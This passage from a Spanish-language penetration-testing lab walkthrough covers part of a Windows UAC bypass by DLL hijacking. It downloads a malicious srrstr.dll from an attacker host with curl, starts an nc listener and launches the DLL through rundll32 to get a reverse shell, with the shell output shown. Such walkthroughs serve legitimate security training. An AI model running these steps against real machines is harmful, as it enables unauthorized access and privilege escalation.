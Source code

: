 ```r
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

### Starting nc Listener on Attack Host

```r
nc -lvnp 8443
```

### Testing Connection

Si ejecutamos el archivo DLL malicioso `srrstr.dll`, recibiremos una shell de vuelta mostrando los derechos de usuario normal (UAC habilitado). Para probar esto, podemos ejecutar la DLL utilizando `rundll32.exe` para obtener una conexión de reverse shell.

```r
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

Una vez que recibimos una conexión de vuelta, veremos derechos de usuario normales.

```r
nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### Executing SystemPropertiesAdvanced.exe on Target Host

Ahora, podemos ejecutar la versión de 32 bits de `SystemPropertiesAdvanced.exe` desde el host objetivo.
